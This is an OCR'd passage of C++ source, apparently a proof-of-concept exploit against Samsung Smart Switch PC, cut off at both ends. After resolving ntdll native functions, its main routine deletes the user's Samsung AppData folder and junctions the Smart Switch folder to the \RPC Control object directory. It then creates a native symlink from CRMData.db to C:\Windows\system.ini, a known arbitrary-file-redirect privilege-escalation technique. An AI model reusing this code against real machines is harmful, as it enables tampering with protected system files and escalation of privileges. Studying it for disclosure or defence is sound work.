```cpp
	FindClose(hSrch);

	if (recur > 0) RemoveDirectory(TempPath);

	return 0;
}

void NtInit() {
	LoadLibrary(L"ntdll.dll");
	HMODULE hm = GetModuleHandle(L"ntdll.dll");
	_RtlInitUnicodeString = (ULONG(WINAPI*)(PUNICODE_STRING, PCWSTR))GetProcAddress(hm, "RtlInitUnicodeString");
	_RtlNtStatusToDosError = (ULONG(WINAPI*) (NTSTATUS Status))GetProcAddress(hm, "RtlNtStatusToDosError");
	_NtCreateSymbolicLinkObject = (NTSTATUS(WINAPI*)(
		OUT PHANDLE             pHandle,
		IN ACCESS_MASK          DesiredAccess,
		IN POBJECT_ATTRIBUTES   ObjectAttributes,
		IN PUNICODE_STRING      DestinationName))GetProcAddress(hm, "NtCreateSymbolicLinkObject");
	_NtCreateFile = (NTSTATUS(WINAPI*)(
		PHANDLE            FileHandle,
		ACCESS_MASK        DesiredAccess,
		POBJECT_ATTRIBUTES ObjectAttributes,
		PIO_STATUS_BLOCK   IoStatusBlock,
		PLARGE_INTEGER     AllocationSize,
		ULONG              FileAttributes,
		ULONG              ShareAccess,
		ULONG              CreateDisposition,
		ULONG              CreateOptions,
		PVOID              EaBuffer,
		ULONG              EaLength))GetProcAddress(hm, "NtCreateFile");
	_NtClose = (NTSTATUS(WINAPI*)(HANDLE Handle))GetProcAddress(hm, "NtClose");
}

int main() {
	NtInit();

	std::wstring UserProfilePath = std::wstring(_wgetenv(L"USERPROFILE"));

	std::wstring LinkFile = L"CRMData.db";
	std::wstring LinkDirectory = UserProfilePath + std::wstring(L"\\AppData\\Roaming\\Samsung\\Smart Switch PC");
	std::wstring TargetFile = L"C:\\Windows\\system.ini";

	std::wstring RpcControl = L"\\RPC Control";
	std::wstring RpcControlFile = RpcControl + L"\\" + LinkFile;

	std::wstring ParentDirectory = UserProfilePath + std::wstring(L"\\AppData\\Roaming\\Samsung");
	if (GetFileAttributesW(ParentDirectory.c_str()) != INVALID_FILE_ATTRIBUTES) {
		DeleteAllFiles(ParentDirectory.c_str(), 1);
	}

	CreateDirectoryW(ParentDirectory.c_str(), NULL);

	if (!CreateMountPoint(LinkDirectory, RpcControl, L"Junction")) {
		std::cout << "[-] RPC Control Junction Failed" << std::endl;
		exit(0);
	}
	std::cout << "[+] RPC Control Junction Success" << std::endl;

	HANDLE hFile = CreateNativeSymlink(RpcControlFile, BuildNativePath(TargetFile));
	if (hFile == INVALID_HANDLE_VALUE || hFile == NULL) {
		std::cout << "[-] CreateNativeSymlink Failed" << std::endl;
```
